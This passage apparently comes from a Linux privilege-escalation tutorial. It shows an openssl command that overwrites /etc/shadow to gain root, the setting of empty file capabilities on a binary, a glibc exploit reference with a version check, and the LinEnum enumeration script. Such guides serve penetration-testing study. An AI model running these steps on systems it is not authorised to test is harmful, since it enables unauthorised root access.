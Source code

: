 ```bash
/home/ldapuser1/openssl smime -decrypt -in /home/mydummyuser/shadow.custom -inform DER -inkey /tmp/key.pem -out /etc/shadow
```

Now, all we need to do is `su - root`, et voilà!

_Most of this content is from_ [_here_](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099).

### Setting "empty" capabilities

If you are able to upload binaries and preserve the capabilities flags, you can add "empty" capabilities by using the command:
```bash
sudo setcaps =ep <your binary>
```

## GNU C Library

There is an [obscure C Library exploit](https://www.exploit-db.com/exploits/15304/) that isn't obvious unless you check for the GNU C library version:

```text
cd lib
./libc.so.6
GNU C Library (Ubuntu EGLIBC 2.11.1-0ubuntu7) stable release version 2.11.1, by Roland McGrath et al.
Copyright (C) 2009 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 4.4.3.
```

## Enumeration scripts

Enumeration scripts are an alternative to manual enumeration. However, they are 'dumb' and produce a lot of output, so obvious vulnerabilities can be missed. Manual enumeration is also useful for learning how a Linux system is set up and recognizing when something is amiss.

### LinEnum

[Linenum](https://github.com/rebootuser/LinEnum) is a shell script that checks for privilege escalation opportunities.

Options:

```text
-k Enter keyword
-e Enter export location
-t Include thorough (lengthy) tests
-r Enter report name
-h Displays this help text
```
